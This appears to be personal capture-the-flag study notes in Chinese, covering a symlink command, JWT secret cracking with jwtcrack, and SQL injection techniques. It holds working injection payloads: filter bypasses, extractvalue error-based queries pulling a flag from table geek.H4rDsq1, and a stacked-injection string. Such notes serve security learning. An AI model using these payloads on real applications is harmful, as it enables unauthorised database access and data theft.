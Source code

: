 ln -s  [源文件]  [软链接文件]

ln -s /bin/less /usr/local/bin/less

## 19.jwt

header.payload.signature

爆破秘钥使用jwtcracker（在wsl中）

用法 ./jwtcrack <jwt>

## 18

#  2.SQL注入

## 1.过滤

1.空格过滤使用括号绕过或者时候/**/

2.and过滤使用^连接

3.等号过滤使用like



## 2.技巧

**1.**4.username=44&password=1'^extractvalue(1,concat(0x7e,(select(password)from(geek.H4rDsq1))))%23 

from(geek.H4rDsq1) 前面是库名，后面是表名

**2.**flag分为前后flag

username=44&password=1%27^extractvalue(1,concat(0x7e,(select(left(password,30))from(geek.H4rDsq1))))%23



username=44&password=1%27^extractvalue(1,concat(0x7e,(select(right(password,30))from(geek.H4rDsq1))))%23

将前后flag拼接



## 3.堆叠注入

1'; show tables;#

命令使用分号隔开

## 4.Mysql :handler命令（select被过滤）

handle 不是通用的sql语句，是Mysql独有的，可以逐行浏览某个表中的数据

